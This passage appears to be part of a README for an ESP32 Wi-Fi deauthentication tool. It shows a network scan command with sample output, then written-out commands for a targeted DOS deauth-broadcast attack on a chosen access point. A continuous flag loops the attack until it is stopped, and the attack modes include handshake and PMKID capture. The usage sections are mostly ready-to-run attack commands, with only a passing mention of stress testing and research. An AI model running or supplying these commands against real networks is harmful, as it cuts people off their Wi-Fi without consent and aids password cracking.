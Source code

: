 ### 4. Scan Wi-Fi Networks
Scan for available Wi-Fi networks and display their details (SSID, BSSID, RSSI):

```bash
sudo esp32-deauth scan
```

**Example Output**:
```
+----+----------+-------------------+-------+
| ID | SSID     | BSSID             | RSSI  |
+----+----------+-------------------+-------+
| 0  | Network1 | 00:11:22:33:44:55 | -50   |
| 1  | Network2 | 66:77:88:99:AA:BB | -60   |
+----+----------+-------------------+-------+
```

### 5. Run a Targeted Attack
Perform a deauthentication attack on a specific access point:

```bash
sudo esp32-deauth attack --ap-id 0 --attack-type DOS --attack-method DEAUTH_BROADCAST --timeout 225 --continuous
```

- `--ap-id`: ID of the target AP (from `scan` output).
- `--attack-type`: Attack type (`PASSIVE`, `HANDSHAKE`, `PMKID`, `DOS`; default: `DOS`).
- `--attack-method`: Method (e.g., `DEAUTH_BROADCAST`, `DEAUTH_ROGUE_AP`; default: `DEAUTH_BROADCAST`).
- `--timeout`: Attack duration in seconds (default: 225).
- `--continuous`: Run attack in a continuous/unlimited loop (optional).  
  When `--continuous` is set, the attack will loop indefinitely until manually stopped (Ctrl+C).

**Example**:
Attack AP with ID 0 in continuous DOS mode:
```bash
sudo esp32-deauth attack --ap-id 0 --attack-type DOS --attack-method DEAUTH_BROADCAST --timeout 225 --continuous
```

### Unlimited/Looping Attacks

You can run attacks in an unlimited loop for as long as you want by using the `--continuous` flag. This is useful for stress testing or long-term research scenarios. The attack will repeat automatically until you interrupt it (Ctrl+C).

### Troubleshooting
- **Port Not Found**: Ensure the ESP32 is connected and the port is correct (e.g., `ls /dev/tty*` on Linux/macOS, Device Manager on Windows).
- **WiFi Reconnection Fails**:
  - Windows: Ensure `netsh` can see `ManagementAP` (`netsh wlan show networks`).
  - Linux: Verify `nmcli` is installed (`sudo apt install network-manager`) and the WiFi interface is detected.
  - macOS: Ensure `sudo` is used and `networksetup` can access the WiFi interface.
- **Server Unreachable**: Confirm the ESP32 is flashed with the correct firmware and connected to `ManagementAP`.
- **Permission Errors**: Use `sudo` for Linux/macOS commands requiring WiFi or serial port access.
